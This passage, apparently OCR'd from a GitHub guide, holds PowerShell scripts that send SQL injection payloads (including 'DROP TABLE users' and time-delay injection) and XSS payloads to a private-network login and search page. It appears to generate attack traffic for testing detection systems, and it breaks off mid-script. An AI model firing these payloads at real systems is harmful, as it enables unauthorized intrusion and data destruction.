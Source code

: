```powershell
    } catch {
        Write-Host "Connection $i attempted" -ForegroundColor Yellow
    }
    Start-Sleep -Milliseconds 50
}

Write-Host "Complete!" -ForegroundColor Green
```

### 5. SQL Injection Simulation

```powershell
# SQL injection attempts
$target = "http://192.168.100.1/login"

$payloads = @(
    "' OR '1'='1",
    "admin'--",
    "1' OR 1=1--",
    "'; DROP TABLE users--",
    "' UNION SELECT NULL--",
    "admin' #",
    "' OR 'x'='x",
    "1'; WAITFOR DELAY '00:00:05'--"
)

Write-Host "Simulating SQL injection attacks..." -ForegroundColor Cyan

foreach ($payload in $payloads) {
    $encodedPayload = [uri]::EscapeDataString($payload)
    $url = "${target}?user=${encodedPayload}&pass=test"
    
    try {
        Invoke-WebRequest -Uri $url -TimeoutSec 2 -ErrorAction Stop
    } catch {
        Write-Host "Sent SQL injection: $payload" -ForegroundColor Yellow
    }
    
    Start-Sleep -Seconds 1
}

Write-Host "Complete!" -ForegroundColor Green
```

### 6. XSS Attack Simulation

```powershell
# Cross-Site Scripting (XSS) attempts
$target = "http://192.168.100.1/search"

$xssPayloads = @(
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg/onload=alert('XSS')>",
    "javascript:alert('XSS')",
    "<iframe src='javascript:alert(XSS)'>",
    "<body onload=alert('XSS')>"
)

Write-Host "Simulating XSS attacks..." -ForegroundColor Cyan

foreach ($payload in $xssPayloads) {
    $encodedPayload = [uri]::EscapeDataString($payload)
    $url = "${target}?q=${encodedPayload}"
```